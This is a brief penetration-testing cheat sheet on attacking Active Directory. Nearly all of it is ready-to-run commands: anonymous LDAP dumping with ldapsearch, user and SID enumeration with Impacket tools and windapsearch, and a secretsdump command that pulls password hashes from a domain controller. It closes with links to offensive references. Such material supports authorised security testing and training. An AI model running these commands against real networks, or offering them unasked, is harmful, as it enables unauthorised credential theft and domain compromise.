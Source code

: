 # Active Directory (AD)

{% hint style="info" %}
Ensure additional caution when brute forcing AD as you can disable user accounts due to the Account Lockout Policy
{% endhint %}

#### Anonymous Credential LDAP Dumping

```
ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```

#### Impacket GetADUsers.py (Must have valid credentials)

```
GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

#### Impacket lookupsid.py

```
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

#### Impacket Secretdump

```
python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin
```

#### Windapsearch

https://github.com/ropnop/windapsearch

```
python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```

### References:

* PayloadAllTheThings: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)
* Attacking Active Directory: 0 to 0.9: [https://zer1t0.gitlab.io/posts/attacking\_ad](https://zer1t0.gitlab.io/posts/attacking\_ad/)
